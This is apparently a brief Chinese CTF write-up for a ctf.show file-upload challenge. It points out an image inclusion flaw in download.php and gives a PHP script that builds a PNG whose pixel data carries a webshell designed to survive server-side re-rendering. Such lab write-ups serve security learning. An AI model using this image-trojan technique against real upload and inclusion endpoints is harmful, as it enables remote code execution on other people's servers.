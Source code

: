 这题随便传个图片试试发现多了个查看图片

```
https://775e9cd3-3a73-47a1-b31d-7b4450ec5573.challenge.ctf.show/download.php?image=94f7678cc4cda39c02c7890bc8fe6941.png
```

![image-20250127194925361](../assets/image-20250127194925361.png)

从url我们可以看出这题存在图片包含

我们可以利用这个文件包含去执行我们的图片马

大佬的脚本，可以绕过二次渲染

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);



$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>

```
